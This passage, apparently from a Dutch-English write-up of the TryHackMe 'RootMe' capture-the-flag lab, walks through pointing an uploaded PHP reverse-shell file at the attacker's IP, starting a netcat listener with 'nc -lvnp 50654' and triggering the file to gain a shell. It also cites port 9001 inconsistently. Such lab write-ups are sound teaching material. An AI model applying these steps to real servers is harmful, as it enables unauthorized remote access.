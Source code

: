 #### Antwoord:
```
O arquivo foi upado com sucesso!
```

### Establish the reverse shell
Zorg dat het bestand `shell.php5` is aangepast dat `127.0.0.1` is aangepast naar het ip-adres van je aanvallende pc en de poort naar de poort waarop je een listener gaat activeren.

- Open a terminal and launch netcat on port 9001
>[!Warning]
> Gebruik de poort die je hebt ingesteld in het bestand. In dit geval is er `50654` gebruikt.

```bash
nc -lvnp 50654
```
- Navigate to the uploads page on the website and execute the script
![alt text](https://github.com/SvenvG0/THM/blob/main/RootMe/Images/activate_script.png?raw=true)

#### Resultaat:
![alt text](https://github.com/SvenvG0/THM/blob/main/RootMe/Images/reverse_shell.png?raw=true)

>[!Tip]
> Nu we een reverse shell hebben kunnen we de eerste stap van Task 3 uitvoeren.

